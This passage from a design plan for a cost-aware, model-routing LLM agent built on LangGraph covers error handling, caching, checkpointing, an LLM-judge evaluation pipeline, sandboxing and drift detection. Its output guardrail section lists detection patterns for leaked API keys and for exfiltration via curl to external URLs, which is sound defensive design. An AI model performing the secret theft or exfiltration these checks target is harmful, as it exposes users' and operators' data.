        updates["last_error_type"] = error_type
        error_record = ErrorRecord(
            step=state["step_count"], error_type=error_type,
            error_code=extract_http_code(details), message=details,
            model=state["selected_model"], timestamp=time.time(),
        )
        updates["error_history"] = [error_record.model_dump()]
        if error_type == "retryable":
            backoff_seconds = 2 ** state.get("retry_count_current_step", 0)
            updates["backoff_until"] = time.time() + backoff_seconds
            updates["retry_count_current_step"] = state.get("retry_count_current_step", 0) + 1
    else:
        updates["consecutive_errors"] = 0
        updates["last_error_type"] = ""
    return updates
```

### 2.4 Two layers of routing

- **Deterministic (Python)**: The `route` node applies `RoutingConfig` thresholds via `components/router.select_model()`. This is fast, predictable, and auditable.
- **Advisory (prose)**: `routing_policy.j2` is rendered via `PromptService` into the LLM's system prompt, so the LLM also reasons about model selection. This handles edge cases that heuristics miss.

### 2.5 Tool result caching

The `execute_tool_node` checks `AgentState.tool_cache` before dispatching to the registry (see 1.4 for implementation). Only tools registered with `cacheable=True` are cached -- this flag is set for idempotent read operations (`shell` with read-only commands, `file_io` reads) and never for side-effectful operations (`file_io` writes, future tools that modify external state).

Cache keys are `f"{tool_name}:{md5(json.dumps(args, sort_keys=True))}"` -- string keys for clean serialization through LangGraph's checkpointer. The cache persists across loop iterations within a single task but is not shared across tasks.

### 2.6 Output guardrail

After `call_llm_node`, the LLM's response is scanned for information leakage. In Phase 2, this is implemented as an inline check within `call_llm_node` (to avoid adding a separate graph node for a lightweight check). In Phase 3+, it can be promoted to a separate `guard_output_node` if the check logic grows.

The output guardrail checks for:
- **PII patterns**: Regex-based detection of emails, phone numbers, SSN patterns
- **API key patterns**: Common key formats (`sk-`, `AKIA`, `ghp_`, etc.)
- **System prompt leakage**: Substring matching against the rendered system prompt text
- **Exfiltration attempts**: Tool calls that send data to external URLs (e.g., `curl` with query parameters)

On detection, the response is sanitized (PII redacted) or blocked (system prompt leakage), and the incident is logged to `guards.log` via `services/guardrails.py`.

---

## Phase 3: Checkpointing, Evaluation Pipeline, and Analysis

Goal: Durable execution with rollback, LangSmith-powered evaluation pipeline, and cost/quality analysis.

### 3.1 Checkpointing and rollback

Enable LangGraph's built-in checkpointing:

```python
from langgraph.checkpoint.sqlite import SqliteSaver

checkpointer = SqliteSaver.from_conn_string("checkpoints.db")
graph = builder.compile(checkpointer=checkpointer)
```

Every node transition is automatically persisted. For risky tools (side effects), add `interrupt_before=["execute_tool"]` to pause before execution. If the tool fails, resume from the pre-tool checkpoint.

Track rollback frequency per model tier in `step_results` -- high rollback rate for a tier signals mis-routing.

### 3.2 Evaluation pipeline

The evaluation pipeline follows a discovery-first methodology: observe the agent, discover failure modes from data, build a taxonomy, then construct the judge. Four stages, executed in order:

#### 3.2.1 Data collection (formalized EvalRecord schema)

Every node wrapper already records via `eval_capture.record()` using the `EvalRecord` Pydantic model (defined in Phase 1.2). The formalized JSONL schema ensures downstream consumers (`meta/analysis.py`, `meta/judge.py`) can parse records reliably:

```json
{
  "schema_version": 1,
  "timestamp": "2026-04-14T10:30:00Z",
  "task_id": "uuid",
  "user_id": "user_123",
  "step": 3,
  "target": "call_llm",
  "model": "gpt-4o-mini",
  "ai_input": {"system_prompt": "...", "messages": ["..."]},
  "ai_response": {"content": "...", "tool_calls": ["..."]},
  "tokens_in": 1200,
  "tokens_out": 350,
  "cost_usd": 0.002,
  "latency_ms": 890
}
```

Schema changes increment `schema_version`; `meta/analysis.py` handles both old and new versions.

#### 3.2.2 Failure discovery (observe -> taxonomy -> label)

Before building automated evaluation, observe the agent in action to discover what actually goes wrong. This prevents committing to a failure taxonomy that misses routing-specific failure modes unique to this architecture.

**Step 1: Sample query design.** Create 50 test queries in 5 difficulty buckets:
- 10 trivial (single-step, factual)
- 10 simple tool use (single tool)
- 10 multi-step (2-3 steps with tool chaining)
- 10 reasoning (requires planning and decomposition)
- 10 adversarial (ambiguous queries, impossible tasks, prompt injection attempts)

**Step 2: Observation.** Run all 50 queries. Read every log file (`prompts.log`, `routing.log`, `evals.log`, `tools.log`, `guards.log`). For each failure, write a raw observation: what happened, what should have happened, why it went wrong.

**Step 3: Taxonomy construction.** Cluster failures by root cause. Expected routing-specific categories (discovered from data, not pre-committed):
- Wrong-tier selection (fast model on reasoning task, capable model wasted on trivial lookup)
- Routing oscillation (escalate -> succeed -> downgrade -> fail -> re-escalate loop)
- Cross-model inconsistency (fast model plan, capable model misinterprets it)
- Budget cliff (downgrade at 80% budget, low-quality final answer)
- Plus standard categories (hallucination, tool misuse, stall loops, premature termination)

Document in `meta/discovery/failure_taxonomy.json`:

```json
{
  "schema_version": 1,
  "categories": [
    {
      "id": "wrong_tier",
      "label": "Wrong-Tier Selections",
      "description": "Fast model assigned to a task requiring reasoning, or capable model used for a trivial step",
      "severity": "medium",
      "example_task_ids": ["task_032", "task_041"]
    }
  ]
}
```

**Step 4: Labeling.** Manually annotate 50-100 failure instances with verdict, category, and score. These become the calibration dataset for the LLM judge.

#### 3.2.3 LLM judge (`meta/judge.py`)

An offline LLM-as-judge evaluator that scores agent outputs against the discovered failure taxonomy. Lives in `meta/` -- not part of the runtime pipeline.

```python
class JudgeResult(BaseModel):
    task_id: str
    verdict: str                       # "pass" | "fail" | "partial"
    failure_category: str | None
    confidence: float                  # 0.0-1.0
    reasoning: str                     # chain-of-thought before score
    score: float                       # 0.0-1.0 continuous quality score

class AgentJudge:
    def __init__(self, taxonomy_path: str, few_shot_examples: list[dict]):
        self.taxonomy = load_taxonomy(taxonomy_path)
        self.few_shot = few_shot_examples
        self.model = "gpt-4o"          # different model family from agent's models

    def evaluate(self, task_input: str, agent_output: str,
                 expected_outcome: str | None) -> JudgeResult:
        prompt = PromptService.render_prompt("judge_prompt",
            taxonomy=self.taxonomy, few_shot=self.few_shot,
            task_input=task_input, agent_output=agent_output,
            expected_outcome=expected_outcome)
        ...
```

**Calibration targets** (2026 industry standard):
- Spearman correlation >= 0.80 with human expert judgment
- Cohen's kappa > 0.8 (agreement exceeds random chance)
- If kappa < 0.8 after 3 calibration rounds, scope the judge to the subset of failure types where it achieves threshold

**Bias mitigation**: Use a different model family for the judge than the agent's models (prevents self-preference bias). Require structured JSON output with reasoning before score. Set temperature to 0 for deterministic scoring.

#### 3.2.4 Automated scoring pipeline (`meta/run_eval.py`)

End-to-end pipeline: golden set -> agent -> judge -> report.

1. Load golden set from LangSmith evaluation dataset (the "sacred" eval set)
2. Run each task through the agent, collect outputs and `step_results`
3. Run the LLM judge on each output
4. Produce a score report: pass rate, cost per task, failure category distribution, per-tier success rate
5. Store baseline score distribution for drift detection (Phase 4.3)

LangSmith integration: evaluation datasets define benchmark tasks, custom evaluator functions wrap the LLM judge, prompt management versions the `.j2` template content.

### 3.3 Results analysis

Analysis draws from two observability sources:

**Per-concern log files** (via `logging.json`):
- `prompts.log` -- every template render with template name and variables
- `guards.log` -- every guardrail accept/reject decision with condition and input
- `evals.log` -- every AI input/output pair with target tags, user attribution, cost (via `eval_capture`)
- `tools.log` -- every tool execution with input/output
- `routing.log` -- every model selection decision with reason

**Structured logger** (`services/observability.py`):
- Per-task summary (like autoresearch's printed `---` block): step count, total cost, models used, outcome
- Aggregated TSV across tasks
- Cost breakdown by model tier: what % of spend went to fast vs capable, and what was the success rate of each

### 3.4 Production hardening

Operational controls required for serving authenticated end users via web UI:

**Per-user budget enforcement:** The `route_node` reads `user_max_cost_per_task` from `RunnableConfig["configurable"]` and checks it against `total_cost_usd` before selecting a model. If the user's budget is lower than `AgentConfig.max_cost_usd`, the user's limit takes precedence. Per-user daily/monthly cumulative budgets are enforced in the API layer (outside the agent) via database-backed counters.

**Retry/backoff logic:** Errors are classified by the `evaluate_node` into four types:
- `retryable` (HTTP 429/503): set `backoff_until` with exponential backoff, retry same model
- `model_error` (unparseable output, schema violation): escalate to capable-tier model
- `tool_error` (tool execution failed): report to agent as `ToolMessage` with error, let agent decide next action
- `terminal` (auth failure, budget exceeded): exit graph immediately

**Sandbox-as-tool architecture (Phase 3+):** For production deployment, tool execution is delegated to ephemeral sandbox environments via API rather than running in the agent's process:
- Agent runs on the host, holding API keys and state
- Each user session gets an isolated sandbox (E2B, Modal, or gVisor-backed container) with:
  - Default-deny networking (only agent API can communicate with the sandbox)
  - Read-only filesystem except `/workspace/{session_id}/`
  - 60-second timeout
  - Destroyed after task completion
- The Pydantic validators (command allowlist, path sandboxing) remain as a defense layer even with sandbox isolation

---

## Phase 4: Meta-Optimization and Fallback Evaluation

Goal: The agent improves its own routing by analyzing past performance. Also evaluate whether LangGraph is still earning its keep.

### 4.1 Analytics engine (`meta/analysis.py`)

The `meta/` package is a separate orchestration layer that operates offline on logged data. It is not part of the agent's runtime pipeline.

Reads JSONL logs, per-concern log files, and LangSmith evaluation results to compute:
- Success rate by model tier and step type
- Cost per successful step by model tier
- Unnecessary escalation rate (capable used but fast would have sufficed)
- Failure rate before escalation (fast failing on tasks it should not attempt)

### 4.2 Meta-optimizer (`meta/optimizer.py`)

Tunes `components/routing_config.py` thresholds (numeric data), not `.j2` templates (human intent):

```
META-LOOP:
  1. Read current RoutingConfig thresholds from components/routing_config.py
  2. Read analytics from recent runs + LangSmith eval scores
  3. Propose a threshold adjustment (e.g., escalate_after_failures: 2 -> 3)
  4. Run benchmark tasks (from LangSmith evaluation dataset) with new config
  5. Compare quality + cost vs. baseline using LangSmith evaluators
  6. If better: persist new thresholds (write JSON snapshot + update DEFAULT_CONFIG)
  7. If worse: discard, try different adjustment
  8. Log result to meta_results.tsv
```

The `AgentConfig` and `RoutingConfig` are passed via `config={"configurable": {"agent_config": ..., "routing_config": ...}}` -- the graph structure stays identical across experiments.

### 4.3 Production drift detection (`meta/drift.py`)

Two-level drift detection ensures both the agent and the judge stay calibrated:

**Level 1: Agent performance drift (weekly).** Establish baseline score distributions from golden set runs (Phase 3.2.4). Sample production runs, score them with the LLM judge, and compare:

```python
class DriftDetector:
    def __init__(self, baseline_scores: list[float]):
        self.baseline_mean = statistics.mean(baseline_scores)
        self.baseline_std = statistics.stdev(baseline_scores)

    def check_drift(self, recent_scores: list[float]) -> DriftResult:
        recent_mean = statistics.mean(recent_scores)
        delta = self.baseline_mean - recent_mean
        is_drifted = delta > (self.baseline_std * 2)   # 2-sigma threshold
        return DriftResult(
            baseline_mean=self.baseline_mean, recent_mean=recent_mean,
            delta=delta, is_drifted=is_drifted,
            recommended_action="re-run golden set" if is_drifted else "none",
        )
```

When drift is detected: (1) flag in `meta_results.tsv`, (2) trigger a golden set re-run to confirm the regression, (3) if confirmed, the meta-optimizer investigates whether routing thresholds need adjustment.

**Level 2: Judge calibration drift (monthly).** Re-score the labeled calibration set from Phase 3.2.2. If Cohen's kappa drops below 0.75, the judge prompt needs recalibration (the judge model may have been updated by its provider). This prevents the evaluator from silently degrading.

### 4.4 Feasibility gate: LangGraph fallback to Pydantic AI

At the end of Phase 4, evaluate whether LangGraph is earning its complexity cost:

**Measurable criteria for keeping LangGraph:**
- Checkpointing was invoked in >10% of production runs (rollback from failed tool execution or stall recovery)
- Rollback saved >5 minutes of re-execution time per 100 tasks (measured by comparing checkpoint-resume latency vs full re-run latency)
- Auto-tracing surfaced >3 debugging insights during development that manual `@traceable` would have missed (documented in a decision log)

**If LangGraph does not pass the gate, the fallback is:**

| LangGraph Component | Pydantic AI Replacement |
| --- | --- |
| `StateGraph` with nodes | Plain `while` loop calling the same node functions in sequence |
| `AgentState` TypedDict | Same fields in a Pydantic `BaseModel` passed as a dict |
| `SqliteSaver` checkpointing | Serialize state to JSON before risky steps (~50 lines) |
| `interrupt_before` for rollback | `try/except` around tool execution, restore from saved state |
| LangSmith auto-tracing | `@langsmith.traceable` decorators on each function (still works) |
| `ChatLiteLLM` | Raw `litellm.completion()` -- same LiteLLM, different wrapper |
| `PromptService` | No change -- Jinja2 rendering works without any framework |
| `eval_capture` | No change -- structured logging works without any framework |

This fallback is viable because:
1. `components/` has no LangGraph imports -- `schemas.py`, `routing_config.py`, `router.py`, `evaluator.py` are all framework-agnostic
2. `services/` has no LangGraph imports (except `llm_config.py` which wraps `ChatLiteLLM`)
3. Node functions in `orchestration/` are thin wrappers -- the logic they call is already framework-agnostic
4. LangSmith works independently of LangGraph
5. `PromptService` and `eval_capture` are plain Python -- they work in any context

---

## Key Design Principles

1. **Composable layering**: The system is organized as a three-layer grid -- orchestration (topology), components (domain logic), services (infrastructure). Dependencies flow downward only. This follows the [STYLE_GUIDE_LAYERING.md](docs/STYLE_GUIDE_LAYERING.md) architecture.

2. **Framework as a wrapper, not a dependency**: LangGraph orchestrates; domain logic (`components/router.py`, `components/evaluator.py`) and infrastructure (`services/`) are framework-agnostic. This keeps the Phase 4 fallback viable.

3. **Single metric focus**: Phase 1: task completion. Phase 2: cost reduction at same quality. Phase 3: routing accuracy. Phase 4: automated threshold improvement.

4. **Simplicity criterion**: From autoresearch's `program.md` -- "all else being equal, simpler is better." Don't add routing complexity unless it measurably improves cost/quality tradeoff.

5. **Fixed evaluation**: LangSmith benchmark datasets are sacred (like `prepare.py`); the `RoutingConfig` thresholds are what gets optimized (like `train.py`).

6. **Human writes intent, code holds data**: `.j2` prompt templates are the human's lever for policy. `routing_config.py` holds the numbers. The meta-optimizer tunes the numbers within the bounds the human's policy defines.

7. **Every LLM call records eval data**: The `eval_capture` horizontal service records every AI input/output pair with a `target` tag identifying the pipeline stage (H5). This creates a complete dataset for offline evaluation, fine-tuning, and regression testing.

8. **Dual observability**: Per-concern structured log files (via `logging.json`) + LangSmith cloud tracing (H4). Separate log streams for prompts, eval data, tool calls, and routing decisions. LangSmith provides end-to-end trace visualization.

9. **Two layers of routing**: Deterministic (Python heuristics in `components/router.py`) + advisory (prose policy in `.j2` templates rendered into LLM system prompt). The Python layer is fast and auditable; the prose layer handles nuance.

10. **Never stop logging**: Every step, every model choice, every cost -- LangSmith traces + per-concern log files + JSONL logs. This is how we know if things are improving.

11. **Defense in depth**: Three security layers -- input guardrails (LLM-as-judge, H3), tool execution gates (deterministic Pydantic validators), output guardrails (PII/leakage scanning). No single layer is sufficient; all three are required for production-external deployment. The input guardrail catches adversarial intent; the tool validators enforce hard boundaries; the output guardrail prevents information leakage.

12. **Structured error classification**: Errors are typed (`retryable`, `model_error`, `tool_error`, `terminal`), not just counted. The route node uses error type to decide between retry-with-backoff (for transient failures like HTTP 429) and escalate-to-capable-model (for reasoning failures). This prevents wasting budget on escalation when the correct response is a brief wait.

13. **Observe before you formalize**: The evaluation pipeline follows a discovery-first methodology: run sample queries, observe failures, construct a taxonomy from data, then build the LLM judge. Do not pre-commit to failure categories before observing the agent. Routing-specific failure modes (wrong-tier selection, budget cliff, cross-model inconsistency) will not appear in standard agent failure literature -- they must be discovered from this agent's behavior.
